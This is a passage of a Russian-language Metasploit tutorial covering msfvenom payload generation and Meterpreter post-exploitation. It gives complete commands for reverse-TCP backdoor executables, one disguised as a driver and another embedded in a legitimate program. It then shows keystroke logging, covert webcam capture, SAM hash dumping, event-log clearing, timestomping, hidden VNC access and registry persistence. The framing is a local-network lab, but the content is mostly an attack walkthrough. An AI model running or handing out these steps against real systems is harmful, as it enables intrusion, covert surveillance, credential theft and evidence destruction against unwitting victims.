У многих полезных нагрузок имеются опции. Для их показа применяется флаг --payload-options. Также нужно использовать флаг -p, после которого нужно указать название интересующей полезной нагрузки.
Примеры:
Код:
msfvenom -p windows/messagebox --payload-options

Код:
msfvenom -p windows/meterpreter/reverse_tcp --payload-optionsБудет выведено:
Код:
Options for payload/windows/meterpreter/reverse_tcp:
Name: Windows Meterpreter (Reflective Injection), Reverse TCP Stager
Module: payload/windows/meterpreter/reverse_tcp
Platform: Windows
Arch: x86
Needs Admin: No
Total size: 281
Rank: Normal
Provided by:
skape <[email protected]>
sf <[email protected]>
OJ Reeves
hdm <[email protected]>
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST yes The listen address
LPORT 4444 yes The listen port
Description:
Inject the meterpreter server DLL via the Reflective Dll Injection
payload (staged). Connect back to the attacker
Advanced options for payload/windows/meterpreter/reverse_tcp:
Name Current Setting Required Description
---- --------------- -------- -----------
AutoLoadStdapi true yes Automatically load the Stdapi extension
AutoRunScript no A script to run automatically on session creation.
AutoSystemInfo true yes Automatically capture system information on initialization.
AutoVerifySession true yes Automatically verify and drop invalid sessions
AutoVerifySessionTimeout 30 no Timeout period to wait for session validation to occur, in seconds
EnableStageEncoding false no Encode the second stage payload
EnableUnicodeEncoding false yes Automatically encode UTF-8 strings as hexadecimal
HandlerSSLCert no Path to a SSL certificate in unified PEM format, ignored for HTTP transports
InitialAutoRunScript no An initial script to run on session creation (before AutoRunScript)
PayloadUUIDName no A human-friendly name to reference this unique payload (requires tracking)
PayloadUUIDRaw no A hex string representing the raw 8-byte PUID value for the UUID
PayloadUUIDSeed no A string to use when generating the payload UUID (deterministic)
PayloadUUIDTracking false yes Whether or not to automatically register generated UUIDs
PrependMigrate false yes Spawns and runs shellcode in new process
PrependMigrateProc no Process to spawn and run shellcode in
ReverseAllowProxy false yes Allow reverse tcp even with Proxies specified. Connect back will NOT go through proxy but directly to LHOST
ReverseConnectRetries 5 yes The number of connection attempts to try before exiting the process
ReverseListenerBindAddress no The specific IP address to bind to on the local system
ReverseListenerBindPort no The port to bind to on the local system if different from LPORT
ReverseListenerComm no The specific communication channel to use for this listener
ReverseListenerThreaded false yes Handle every connection in a new thread (experimental)
SessionCommunicationTimeout 300 no The number of seconds of no activity before this session should be killed
SessionExpirationTimeout 604800 no The number of seconds before this session should be forcibly shut down
SessionRetryTotal 3600 no Number of seconds try reconnecting for on network failure
SessionRetryWait 10 no Number of seconds to wait between reconnect attempts
StageEncoder no Encoder to use if EnableStageEncoding is set
StageEncoderSaveRegisters no Additional registers to preserve in the staged payload if EnableStageEncoding is set
StageEncodingFallback true no Fallback to no encoding if the selected StageEncoder is not compatible
VERBOSE false no Enable detailed status messages
WORKSPACE no Specify the workspace for this module
Evasion options for payload/windows/meterpreter/reverse_tcp:
Name Current Setting Required Description
---- --------------- -------- -----------Вспомним наш пример:
Код:
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP_атакующего lport=4444 -f exe -o /tmp/my_payload.exe8. Форматы полезной нагрузки
Как уже было сказано, вторым обязательным флагом является -f. Он устанвливает формат полезной нагрузки.
Чтобы вывести список всех поддерживаемых форматов, выполните команду:
Код:
msfvenom --help-formats
Код:
Executable formats
asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war
Transform formats
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript9. Примеры генерации полезной нагрузки в MSFvenom
Один из популярных вариантов создания полезной нагрузки под Windows уже показан выше:
Код:
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP_атакующего lport=4444 -f exe -o backdoor.exeЧтобы узнать ваш IP адрес, вы можете, например, воспользоваться командой
ip a
Чтобы узнать внешний IP:
curl suip.biz/ip/
Поскольку я моделирую атаку в локальной сети, то я буду использовать локальный IP компьютера с Kali Linux (192.168.0.196):
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.196 lport=4444 -f exe -o backdoor.exe
Программа выведет:

И будет создан файл backdoor.exe.
Можно комбинировать несколько полезных нагрузок. Это позволяет сделать опция -c, которая указывает на файл с шеллколом win32, который должен быть включён в создаваемую полезную нагрузку.
Пример:
msfvenom -p windows/messagebox ICON="INFORMATION" TITLE="Compatibility test" TEXT="The test is processed" -f raw -o mes1
Мы использовали полезную нагрузку windows/messagebox (создаёт диалоговое окно), эта полезная нагрузка без кодирования (-f raw) была сохранена в файл mes1.
Далее мы вновь используем windows/messagebox, и без кодирования сохраняем в файл mes2. После ключа -c мы указываем файл (mes1), который должен быть включён в создаваемую полезную нагрузку.
msfvenom -c mes1 -p windows/messagebox ICON="ERROR" TITLE="Error" TEXT="Missing necessary files" -f raw -o mes2
Наконец, уже знакомая нам команда по созданию исполнимого файла, обратите внимание на опцию -c mes2, ей мы добавляем в создаваемый бинарник ранее сгенерированный файл mes2, который уже содержит mes1:
msfvenom -c mes2 -p windows/meterpreter/reverse_tcp lhost=192.168.0.196 lport=4444 -f exe -o driver_dlya_tvoego_computera.exe
Будет создан файл driver_dlya_tvoego_computera.exe, который при запуске покажет два окна и после этого попытается подключиться к удалённому компьютеру.
Опция -x позволяет указать существующий исполнимый файл (шаблон). Это можно делать для уменьшения подозрения пользователя (исполнимый файл может выполнять полезную для пользователя функцию), либо таким образом можно попытаться заменить уже существующий в системе файл.
Опция -k вместе с предыдущей сохранит нормальное поведение шаблона, и внедрённая полезная нагрузка будет выполняться как отдельный поток:
msfvenom -a x86 --platform windows -x sol.exe -k -p windows/messagebox lhost=192.168.101.133 -b "\x00" -f exe -o sol_bdoor.exe
10. Работа с бэкдорами в Metasploit
На «атакующей» машине запускаем Metasploit:
msfconsole
Далее
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
Обратите внимание, что если вместо windows/meterpreter/reverse_tcp вы выбрали другую полезную нагрузку, то в предыдущей команде замените эту строку на свою.
Нужно установить настройки – IP и порт локальной машины:
set LHOST 192.168.0.196
set LPORT 4444
Не забудьте строку 192.168.0.196 поменять на свой IP адрес. Если вы не меняли порт, то его можно не настраивать, поскольку значением по умолчанию является 4444.
Когда настройки сделаны, запустите выполнение модуля:
run

Теперь на «цели» запустите исполнимый файл с полезной нагрузкой. Как только это будет сделано, бэкдор подключится к машине атакующего и откроется сессия meterpreter:

11. Основы работы в Meterpreter (Meta-Interpreter)
Для показа справки наберите ? или help. Разнообразных команд много. Думаю, стоит затратить время, чтобы ознакомится с ними со всеми. Если вы хотите получить информацию об опциях конкретной команды, напишите команду и добавьте флаг -h, например, следующая команда покажет опции модуля для управления веб-камерой:
webcam_snap -h

Основные команды:
Команда Описание
------- -----------
? Справка
background Перевести в фон текущую сессию
bgkill Убивает фоновый скрипт meterpreter
bglist Список запущенных в фоне скриптов
bgrun Выполнить скрипт meterpreter как фоновый процесс
channel Показывает информацию или управляет активными каналами
close Закрыть канал
disable_unicode_encoding Отключает кодирование unicode строк
enable_unicode_encoding Включает кодирование unicode строк
exit Прекращает сессию meterpreter
get_timeouts Получает значение таймаута текущей сессии
help Справка
info Показывает информацию о модуле Post
irb Перебрасывает в скриптовый режим irb
load Загружает один или более расширений meterpreter
machine_id Получить MSF ID прикреплённой к сессии машины
migrate Перенастроить сервер на другой процесс
quit Прекратить сессию meterpreter
read Считывает данные из канала
resource Запуск команд, сохранённых в файл
run Выполнить скрипт meterpreter или модуль Post
sessions Быстро переключиться на другой сеанс
set_timeouts Установить значение таймаута текущего сеанса
sleep Заставить Meterpreter замолчать, а затем восстановить сеанс.
transport Изменение текущего механизма передачи
use Устаревший псевдоним для 'load'
uuid Получить UUID текущего сеанса
write Записать данные в канал
Итак, с помощью ключевых команд мы можем автоматизировать процесс (выполнять команды из файла), записывать данные в канал, для последующего использования, выполнять долгие задачи в фоне. Особенно обратим внимание на команды info и run – первая покажет информацию об интересующем модуле последующей эксплуатации, а вторая запустит выбранный модуль – к этим вопросам мы вернёмся позже.
Рассмотрим команды файловой системы, некоторые из них имеют одинаковые названия с аналогичными командами в оболочке Linux:
Команда Описание
------- -----------
cat Вывести содержимое файла на экран
cd Сменить директорию
checksum Получить контрольную сумму файла
cp Скопировать файл/директорию в другое место
dir Вывести список файлов (псевдоним для ls)
download Загрузить файл или директорию
edit Отредактировать файл
getlwd Вывести локальную рабочую директорию
getwd Вывести рабочую директорию
lcd Изменить локальную рабочу директорию
lpwd Вывести локальную рабочую директорию
ls Показать список файлов
mkdir Создать директорию
mv Переместить файл/директорию в другое место
pwd Вывести рабочую директорию
rm Удалить указанный файл
rmdir Удалить директорию
search Поиск файлов
show_mount Вывести всех точек монтирования/логических дисков
upload Выгрузить файл или директорию
Например, я хочу на удалённый компьютер выгрузить файл driver_dlya_tvoego_computera.exe:
upload driver_dlya_tvoego_computera.exe

Просматриваем список файлов на удалённом компьютере и загружаем с него файл allen.zip:
ls
download allen.zip

Сетевые команды:
Команда Описание
------- -----------
arp Показать ARP кэш хоста
getproxy Показать текущие настройки прокси
ifconfig Показать интерфейсы
ipconfig Показать интерфейсы
netstat Показать сетевые соединения
portfwd Перенаправить локальный порт на удалённую службу
resolve Сделать запросы с цели на преобразование одного или нескольких имён хостов
route Просмотр и изменение таблицы маршрутизации
Системные команды:
Команда Описание
------- -----------
clearev Очистить журнал событий
drop_token Отбрасывает любой активный токен имперсонализации.
execute Выполнить команду
getenv Получить значение одной или более переменных окружения
getpid Получить идентификатор текущего процесса
getprivs Попытаться включить все привилегии, доступные для текущего процесса
getsid Получение SID пользователя
getuid Получение имени пользователя
kill Завершить процесс
localtime Показать локальную дату и время целевой системы
pgrep Фильтрация процессов по имени
pkill Завершить процесс по имени
ps Список запущенных процессов
reboot Перезагрузить удалённый компьютер
reg Изменение и взаимодействие с удалённым регистром
rev2self Вызов RevertToSelf() на удалённой машине
shell Перейти в системную командную оболочку
shutdown Отключить удалённый компьютер
steal_token Попытаться украсть impersonation token из целевого процесса
suspend Приостанавливает или возобновляет список процессов
sysinfo Получает информацию об удалённой системе, такую как вид ОС
Системные команды позволяют получить доступ к удалённой оболочке, что даёт возможность непосредственно вводить команды, позволяют завершать процессы, выключать или перезагружать компьютер, выполнять команды уровня ОС, а также собирать информацию и заметать следы.
Команды пользовательского интерфейса:
Команда Описание
------- -----------
enumdesktops Список всех доступных рабочих столов и оконных станций
getdesktop Получить текущий рабочий стол meterpreter
idletime Возвращает количество секунд отсутствия активности удалённого пользователя
keyscan_dump Дамп буфера нажатия клавиш
keyscan_start Запустить захват нажатие клавиш
keyscan_stop Остановить захват нажатия клавиш
screenshot Получение скриншота интерактивного рабочего стола
setdesktop Изменение текущего рабочего стола meterpreters
uictl Контроль некоторых компонентов пользовательских интерфейсов
Данный набор команд позволяет делать скриншоты с удалённого компьютера, отключать и включать мышь, клавиатуру, следить на нажатыми пользователем клавишами.
Для начала захвата нажатия клавиш введите:
keyscan_start
Чтобы посмотреть, какие клавиши и в каких программах ввёл пользователь выполните:
keyscan_dump

Команды для управления веб-камерой:
Команда Описание
------- -----------
record_mic Запись аудио со стандартного микрофона в течение X секунд
webcam_chat Начать видеочат
webcam_list Вывести список веб-камер
webcam_snap Сделать снимок указанной веб-камерой
webcam_stream Запустить выдиопоток с выбранной веб-камеры
На мой взгляд, очень интересные функции. Чтобы проверить, имеет ли компьютер жертвы веб-камеры выполните
webcam_list
В моём случае обнаружена одна веб-камера SC-20FHL11146M, чтобы сделать с неё снимок набираю (замените имя веб-камеры):
webcam_snap SC-20FHL11146M
Будет сделана и показана фотография с веб-камеры удалённого компьютера.

Команды повышения привилегий:
Команда Описание
------- -----------
getsystem Пытается поднять ваши привилегии на данной локальной системе.
Команда для работы с базой данных паролей:
Команда Описание
------- -----------
hashdump Дампит содержимое базы данных SAM
Команды для работы с Timestomp (временными метками файла):
Команда Описание
------- -----------
timestomp Манипуляция файловыми атрибутами MACE
Чтобы замести следы, иногда может быть полезным изменить атрибуты MACE (запись изменения, доступа, создания) файла.
12. Скрытый доступ к удалённому рабочему столу (VNC)
Для скрытого доступа к удалённому рабочему столу посредством VNC нужно выбрать полезную нагрузку, содержащую слово vncinject, к примеру, такой полезной нагрузкой является windows/vncinject/reverse_tcp:
msfvenom -p windows/vncinject/reverse_tcp lhost=192.168.0.196 -f exe -o vnc.exe
Далее запустите Metasploit (если вы это ещё не сделали):
msfconsole
Внутри Metasploit:
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set payload windows/vncinject/reverse_tcp
set lhost 192.168.0.196
set rhost 192.168.0.244
run
Обратите внимание, что в отличие от работы с Meterpreter, мы используем exploit/windows/smb/ms09_050_smb2_negotiate_func_index. Также нам необходимо установить IP адрес удалённого хоста (set rhost 192.168.0.244).
После запуска эксплойта, запустите исполнимый файл с полезной нагрузкой на компьютере жертвы. Вы увидите удалённый рабочий стол компьютера жертвы.
В качестве альтернативы, можно использовать 64-битную версию полезной нагрузки: windows/x64/vncinject/reverse_tcp.
На машине атакующего должен быть установлен VNC клиент (просмотрщик).
13. Закрепление доступа
До недавнего времени для закрепления доступа – создания бэкдора, который запускается при каждой загрузки системы – использовался скрипт persistence:
run persistence -h
Но в настоящее время скрипты Meterpreter считаются устаревшими, поэтому рекомендуется использовать модуль post/windows/manage/persistence_exe. Это Windows Manage Persistent EXE Payload Installer, т.е. установщик постоянной полезной нагрузки EXE в Windows.
Этот модуль выгрузит на удалённый хост исполнимый файл и сделает его постоянным – т.е. скопирует в определённое место и добавит ключ в реестр Windows для автоматического запуска при каждом старте Windows. Он может быть установлен как USER, SYSTEM или SERVICE. При выборе USER, программа запустится при входе пользователя; при выборе SYSTEM – запустится при загрузке системы, для этого требуются соответствующие привилегии; при выборе SERVICE будет создана служба, которая запустит полезную нагрузку, также требуются привилегии.
Опции модуля:
Код:
Имя Текущее значение Требуется Описание
---- --------------- -------- -----------
REXENAME default.exe да Имя exe файла на удалённой системе
REXEPATH да Файл, который нужно загрузить на удалённую систему
SESSION да Сессия, на которой запустить этот модуль
STARTUP USER да Тип запуска постоянной нагрузки. (Варианты: USER, SYSTEM, SERVICE)Пример запуска
run post/windows/manage/persistence_exe REXEPATH=/local/path/to/your/payload.exe REXENAME=default.exe STARTUP=SYSTEM
Эта команда означает, что на удалённый хост будет выгружен файл payload.exe, который на локальной системе размещён по пути /local/path/to/your/payload.exe, этот файл на удалённой системе будет переименован в default.exe и будет запущен с системными привилегиями.
Ещё один пример:
run post/windows/manage/persistence_exe REXEPATH=/home/mial/backdoor2.exe

Модуль вывел следующую информацию:
[*] Running module against MIAL-PC
[*] Reading Payload from file /home/mial/backdoor2.exe
[+] Persistent Script written to C:\Users\Alex\AppData\Local\Temp\default.exe
[*] Executing script C:\Users\Alex\AppData\Local\Temp\default.exe
[+] Agent executed with PID 6572
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\MHlFtyrXIllAQ
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\MHlFtyrXIllAQ
[*] Cleanup Meterpreter RC File: /home/mial/.msf4/logs/persistence/MIAL-PC_20170519.0352/MIAL-PC_20170519.0352.rс
Т.е. на удалённой системе файл сохранён по пути C:\Users\Alex\AppData\Local\Temp\default.exe, для автозапуска сделана запись в реестре Windows по пути HKCU\Software\Microsoft\Windows\CurrentVersion\Run\MHlFtyrXIllAQ.

14. Модули последующей эксплуатации Metasploit
post/windows/manage/persistence_exe – это всего лишь один из модулей последующей эксплуатации, которые присутствуют в Metasploit для Windows.
Некоторые примеры:
- post/windows/gather/enum_chrome – извлечение чувствительной информации из веб-браузера Google Chrome
- post/windows/gather/credentials/total_commander – извлечение паролей из Total Commander
- post/windows/escalate/screen_unlock – разблокировка экрана Windows (будьте осторожны с этим модулем)
- post/windows/gather/phish_windows_credentials – фишинговая атака на учётные данные Windows

Все эти модули можно применять во время сеанса Meterpreter.
15. Когда обратный шелл не нужен
Если вы можете установить бэкдор на целевой компьютер, то вполне возможно, что вам подойдут другие альтернативы, а обратный шелл просто не нужен. Например, если на целевой машине уже запущен SSH сервер, то вы можете попытаться добавить к нему нового пользователя и использовать его.
Если целевая машина – это веб-сервер, который поддерживает на стороне сервера язык программирования, то вы можете оставить бэкдор на этом языке. Например, многие сервера Apache поддерживают PHP, в этом случае вы можете использовать PHP "web shell". IIS сервера обычно поддерживают ASP, или ASP.net. Metasploit Framework предлагает полезные нагрузки на всех этих языках (и многих других).
Аналогично для VNC, удалённого рабочего стола, SMB (psexec), других инструментов удалённого администрирования и т.д.
16. Заключение
Итак, как мы могли сами убедиться MSFvenom позволяет генерировать полезную нагрузку, а Meterpreter помогает скрыто управлять удалённой системой.
В целом это обзорная статья, цель которой – показать некоторые возможности Metasploit. В реальной практической ситуации нужно подобрать полезную нагрузку в соответствии с разными сценариями: на случай смены IP жертвой, на случай смены IP атакующим, решить проблемы доставки полезной нагрузки и избежание обнаружения антивирусами.